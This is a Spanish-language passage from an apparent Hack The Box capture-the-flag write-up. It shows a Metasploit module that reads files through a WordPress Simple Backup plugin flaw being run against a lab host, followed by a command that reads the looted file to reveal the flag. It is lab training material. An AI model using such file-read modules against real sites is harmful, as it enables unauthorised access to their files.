 Ejecutamos el exploit:
~~~
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > exploit

[+] File saved in: /root/.msf4/loot/20220321154255_default_188.166.148.4_simplebackup.tra_126641.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
~~~

Ahora solo tendriamos que ubicar la ruta `/root/.msf4/loot/` y abrir el archivo `20220321154255_default_188.166.148.4_simplebackup.tra_126641.txt`

~~~
cat /root/.msf4/loot/20220321154255_default_188.166.148.4_simplebackup.tra_126641.txt

HTB{my_f1r57_h4ck}
~~~